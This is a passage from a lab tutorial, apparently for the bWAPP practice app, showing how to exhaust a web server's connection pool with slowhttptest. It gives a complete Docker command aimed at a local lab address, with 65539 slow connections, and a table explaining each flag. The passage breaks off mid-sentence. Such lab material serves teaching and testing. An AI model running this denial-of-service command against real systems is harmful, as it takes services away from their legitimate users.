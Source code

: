 Why not do a thousand requests
until every single connection available on the server pool
is busy with us?

To do this, we are going to use a tool.

## Using slowhttptest

First, let’s pull the
[slowhttptest docker image](https://hub.docker.com/r/frapsoft/slowhttptest/)
from the docker hub.

**Bash command.**

``` bash
docker pull frapsoft/slowhttptest
```

And write the following command:

**Bash command.**

``` bash
sudo docker run --name DoSBWAPP --rm  frapsoft/slowhttptest \
-c 65539 -B -i 10 -l 300 -r 10000 -s 16384 -t firstname \
-u "http://192.168.56.101/bWAPP/xss_get.php" -x 10 -p 300
```

The parameters you see are described below:

<div class="tc">

**Table 1. Slowhttptest description**

</div>

|                        |                                                                                                                          |
| ---------------------- | ------------------------------------------------------------------------------------------------------------------------ |
| <p> \-c 65539     </p> | <p> use 65539 connections                                                                                           </p> |
| <p> \-B           </p> | <p> specify to slow down the http in message body mode                                                              </p> |
| <p> \-i 10        </p> | <p> seconds of interval between follow up data, per connection                                                      </p> |
| <p> \-l 300       </p> | <p> duration of the test in seconds                                                                                 </p> |
| <p> \-p 300       </p> | <p> timeout in seconds to wait for HTTP response on probe connection, after which server is considered inaccessible </p> |
| <p> \-r 10000     </p> | <p> connections per second                                                                                          </p> |
| <p> \-s 16384     </p> | <p> value of Content-Length header                                                                                  </p> |
| <p> \-x 10        </p> | <p> max length of follow up data in bytes                                                                           </p> |
| <p> \-t firstname </p> | <p> add ?firstname=(-x 10bytes) to the target url                                                                   </p> |
| <p> \-u URL       </p> | <p> target URL                                                                                                      </p> |

While the attack is running a user that tries to access the service is going
to see:
